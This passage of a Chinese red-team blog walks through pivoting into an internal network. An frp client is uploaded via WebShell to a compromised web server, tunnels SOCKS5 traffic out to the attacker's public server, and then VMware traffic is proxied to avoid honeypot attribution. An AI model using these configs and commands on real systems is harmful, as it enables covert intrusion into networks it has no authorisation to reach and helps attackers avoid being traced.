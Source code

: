 配置`frpc.ini`:

```
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过 WebShell 上传，frps 上传到自己的公网服务器上，配置`frps.ini`:

```
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开 6000 和 7000 这两个端口，并执行命令进行监听：

```
./frps -c ./frps.ini
```

再在上线的那台机器上执行命令：

```
/var/www/html/frp/frpc -c ./frpc.ini
```

这样就可以成功将内网流量通过公网服务器的 6000 端口代理出来了，接下来使用 `Proxifier` 配合 Frp 对相关进程进行全局代理即可：

![](https://blog.zgsec.cn/usr/uploads/2022/12/4210343784.png)

然后直接用工具对内网目标攻击即可（没错，就是你想的那样，工具里面直接填内网 IP 地址就能打）

### 3.2 通过 Proxifier 将 VM 虚拟机代理

很多时候，作为攻击队，我们都需要在纯净的武器库虚拟机中完成自己的渗透（因为蜜罐会尝试获取浏览器 Cookie 和本地文件，用自己的实体机很快就能被溯源），如何直接让所有的虚拟机都走上代理呢？

**注：本文这个方法，无视任何类型的系统类型和对应配置，只要配置 VM 网卡出网即可被代理**

如下配置：

![](https://blog.zgsec.cn/usr/uploads/2023/07/457588977.png)

应用程序填写如下：

```
vmware.exe; vmnetcfg.exe; vmnat.exe; vmrun.exe; vmware-vmx.exe; mkssandbox.exe; vmware-hostd.exe; vmnat.exe; vmnetdhcp.exe
```

配置完成后，我们来虚拟机里面看看：

![](https://blog.zgsec.cn/usr/uploads/2023/07/2531646127.png)

